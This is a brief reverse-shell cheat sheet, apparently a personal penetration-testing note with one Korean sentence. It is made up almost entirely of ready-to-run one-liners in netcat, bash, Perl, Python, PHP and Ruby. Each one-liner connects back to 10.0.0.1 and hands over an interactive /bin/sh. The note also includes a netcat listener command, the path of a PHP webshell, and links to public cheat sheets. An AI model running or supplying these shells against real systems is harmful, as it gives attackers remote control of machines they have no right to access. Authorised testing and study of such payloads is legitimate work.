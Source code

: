 reverse-shell
#
`Netcat`
```
rlwrap nc -nvlp <port>
```
```
nc -e /bin/sh 10.0.0.1 1234
```
잘못된 버전을 사용할 경우 다음과 같이 리버스 셸을 다시 사용할 수 있다
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
#
`Bash`
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
#
`Perl`
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
#
`python`
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
#
`php`
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
#
`ruby`
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
#
locate
```
/usr/share/webshells/php/php-reverse-shell.php
```

#
reference

- [reverse shell php](https://github.com/BlackArch/webshells)
- [reverse shell payload](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [reverse shell payload](https://highon.coffee/blog/reverse-shell-cheat-sheet/)